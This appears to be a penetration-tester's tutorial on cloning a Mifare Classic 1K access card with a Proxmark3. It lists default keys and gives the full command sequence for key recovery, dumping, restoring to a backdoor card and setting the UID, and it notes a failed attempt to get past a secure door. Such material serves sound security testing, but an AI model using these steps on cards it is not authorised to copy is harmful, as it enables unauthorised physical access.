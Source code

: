 
# Mifare Classic 1K ISO14443A

```bash
proxmark3> hf search
```

Which results in a response along the lines of:

```bash hl_lines="5 9"
 #db# DownloadFPGA(len: 42096)
 UID : de 0f 3d cd
ATQA : 00 04  
 SAK : 08 [2]
TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1
proprietary non iso14443-4 card found, RATS not supported
No chinese magic backdoor command detected
Prng detection: HARDENED (hardnested)
Valid ISO14443A Tag Found - Quiting Search
```

In this case it’s a Mifare 1k card. This also shows us the UID (de0f3dcd) of the card, which we’ll need later. From there we can find keys in use by checking against a list of default keys (hopefully one of these has been used):

proxmark3> hf mf chk * ?
This should show us the key we require looking something like:

No key specified, trying default keys  
chk default key[ 0] ffffffffffff  
chk default key[ 1] 000000000000  
chk default key[ 2] a0a1a2a3a4a5  
chk default key[ 3] b0b1b2b3b4b5  
chk default key[ 4] aabbccddeeff  
chk default key[ 5] 4d3a99c351dd  
chk default key[ 6] 1a982c7e459a  
chk default key[ 7] d3f7d3f7d3f7  
chk default key[ 8] 714c5c886e97  
chk default key[ 9] 587ee5f9350f  
chk default key[10] a0478cc39091  
chk default key[11] 533cb6c723f6  
chk default key[12] 8fd0a4f256e9  
--sector: 0, block:  3, key type:A, key count:13
Found valid key:[ffffffffffff]  
...omitted for brevity...
--sector:15, block: 63, key type:B, key count:13
Found valid key:[ffffffffffff]  
This shows a key of ffffffffffff, which we can plug into the next command, which dumps keys to file:

proxmark3> hf mf nested 1 0 A ffffffffffff d
This dumps keys from the card into the file dumpkeys.bin.

Now to dump the contents of the card:

proxmark3> hf mf dump
This dumps data from the card into dumpdata.bin

At this point we’ve got everything we need from the card, we can take it off the reader.

To copy that data onto a new card, place the (Chinese backdoor) card on the proxmark:

proxmark3> hf mf restore 1
This restores the dumped data onto the new card. Now we just need to give the card the UID we got from the original hf search command:

proxmark3> hf mf csetuid ba2ea6ab
We’re done, the new card should work.

This whole process can be completed in a minute or two, so it’s not a quick read of the card by any means.

Why do we need keys
When most modern cards are placed next to a card reader there’s a handshake to ensure the card has the expected keys. This handshake moves the card through a number of states and only when the handshake successfully completes will the card allow access to all data stored on it. This is the reason that you can’t simply clone most cards, you need the correct key to complete the handshake and allow access to the contents of the card.

A defensive lesson
Some cards use default keys, while this makes it easy to clone a card, it also makes it pretty poor from a defensive point of view. It’s like using default admin credentials for a database, it makes an attackers life easy.

The lights on the Proxmark
I have to admit pretty much ignoring them. When I use it, it’s always connected to the laptop, so I’ve got the console output to see what it’s doing. There was a point where I tried to understand them, I found a guide, they were starting to make sense. Then I updated the device and that changed what the lights did completely. I’ve ignored them ever since.

Fix a broken card
We had a situation where we wanted to clone a Mifare Desfire card but didn’t have an identical card to copy it to – we only had a Mifare Classic 1K. We also couldn’t read the complete card as we didn’t have the key to authenticate, so all we could usefully get was the UID. Some research suggested a small chance that just using the UID might be enough to get past a secure door if there was a (very) sloppy implementation. We copied that UID (10 bytes) to a Mifare Classic 1K card (which uses a 7 byte UID). The difference in UID size was another indication that this was very unlikely to work. it didn’t work. Doing this left our Mifare Classic card in a state where the Proxmark wouldn’t even read it, so to fix that we did:

proxmark3> hf mf cwipe 1 w f